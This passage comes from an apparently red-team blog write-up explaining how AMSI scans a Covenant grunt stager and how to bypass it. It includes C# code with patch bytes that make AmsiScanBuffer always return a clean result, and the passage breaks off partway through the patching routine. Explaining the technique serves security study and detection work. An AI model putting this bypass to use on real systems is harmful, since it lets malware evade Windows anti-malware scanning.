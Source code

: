 At the point where the launcher is attempting to load a new assembly into the existing appdomain, (`Assembly.Load()`) the Windows AMSI APIs are called to request that the contents of the new assembly are scanned. Because the grunt stager currently exists as a byte array, [AmsiScanBuffer()](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) from `amsi.dll` is being called and supplied with the grunt stager assembly as the buffer to be scanned for malware.

**AmsiScanBuffer()**
```cpp
HRESULT AmsiScanBuffer(
  HAMSICONTEXT amsiContext,
  PVOID        buffer,          // Buffer to be scanned for malware
  ULONG        length,          // Size of the buffer to be scanned (in bytes)
  LPCWSTR      contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT  *result          // Output result of malware scan
);
```

**AMSI_RESULT**
```cpp
typedef enum AMSI_RESULT {
  AMSI_RESULT_CLEAN,                    // Known good
  AMSI_RESULT_NOT_DETECTED,             // Clean based on current signatures
  AMSI_RESULT_BLOCKED_BY_ADMIN_START,
  AMSI_RESULT_BLOCKED_BY_ADMIN_END,
  AMSI_RESULT_DETECTED                  // Malware detected
} ;
```

## Bypassing AMSI

At this point, there have been a number of different methods discovered for bypassing AMSI scanning. I'll be using a well-documented technique that involves locating and patching `amsi.dll` within the current process, so that the `AmsiScanBuffer()` function always returns a result of `AMSI_RESULT_CLEAN` - regardless of what data is supplied to the function. [Rasta Mouse](https://rastamouse.me/) has done a great writeup of his work on this bypass [here](https://rastamouse.me/blog/asb-bypass-pt3/).

I leveraged [Rasta Mouse's code](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs) to implement this `AmsiScanBuffer()` patch in Covenant's msbuild launcher.

Here is the part of Rasta Mouse's code that performs the patch, with some explanatory comments added - it's surprisingly easy!

```cs
// https://twitter.com/_xpn_/status/1170852932650262530
// Patches for x86/x64 versions - set AMSI_RESULT_CLEAN 
static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };

public static void Bypass()
{
    if (is64Bit())
        PatchAmsi(x64);
    else
        PatchAmsi(x86);
}

private static void PatchAmsi(byte[] patch)
{
    try
    {
        // Locate the base address of the target function - AmsiScanBuffer()
        var lib = Win32.LoadLibrary("amsi.dll");
        var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");

        // Change the permissions of the memory section containing the target
```